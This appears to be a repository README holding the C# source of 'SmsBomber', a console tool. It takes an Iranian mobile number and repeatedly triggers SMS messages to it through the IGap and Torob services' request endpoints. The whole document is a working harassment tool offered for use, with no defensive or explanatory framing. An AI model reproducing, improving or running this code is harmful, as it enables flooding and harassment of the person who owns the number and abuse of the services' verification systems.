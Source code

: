 # SmsBomber
Sms Bomber C#


using SmsBomberDLL.IGap;
using SmsBomberDLL.Torob;



Console.Write("Enter Number (09********) : ");
string PhoneNumber = Console.ReadLine();
if (double.TryParse(PhoneNumber, out _) && PhoneNumber.Length == 11)
{
    try
    {
        Task IGapTask = new(() =>
          {
              for (int i = 0; i < 10; i++)
              {
                  IGapRequest IGap = new();
                  if (IGap.SendRequstIGap(PhoneNumber) == 200)
                  {
                      Console.WriteLine($"IGap Sms Sened Phone => {PhoneNumber}");
                      Thread.Sleep(1000);

                  }
                  else
                  {
                      break;
                  }
              }
          });

        Task TorobTask = new(() =>
        {
            for (int i = 0; i < 10; i++)
            {
                TorobRequest Torob = new();
                if (Torob.SendRequestTorob(PhoneNumber) == 200)
                {
                    Console.WriteLine($"Torob Sms Sened Phone => {PhoneNumber}");
                    Thread.Sleep(1000);
                }
                else
                {
                    break;
                }
            }
        });
        IGapTask.Start();
        IGapTask.Wait();
        TorobTask.Start();
        Task.WaitAll(IGapTask, TorobTask);
        Console.WriteLine("Good Bye...");
    }
    catch { }
}
Console.ReadKey();
